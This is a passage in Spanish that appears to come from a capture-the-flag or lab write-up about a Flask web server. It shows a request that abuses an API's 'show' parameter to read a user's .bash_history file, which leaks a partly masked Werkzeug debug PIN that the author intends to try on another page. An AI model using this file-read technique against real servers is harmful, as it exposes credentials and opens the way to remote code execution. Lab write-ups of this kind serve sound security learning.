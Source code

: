 ![20230923013524.png](20230923013524.png)

Después de estar buscando archivos que puedan tener alguna credencial o información valiosa para tener acceso al servidor, nos encontramos con lo siguiente:

```shell
http://10.10.15.203:5000/api/v1/resources/books?show=/home/sid/.bash_history

cd /home/sid whoami export WERKZEUG_DEBUG_PIN=123-321-*** echo $WERKZEUG_DEBUG_PIN python3 /home/sid/api.py ls exit
```
Pudimos leer el archivo `.bash_history`, el cual contiene un PIN que podemos probar en otra ruta de la pagina web.
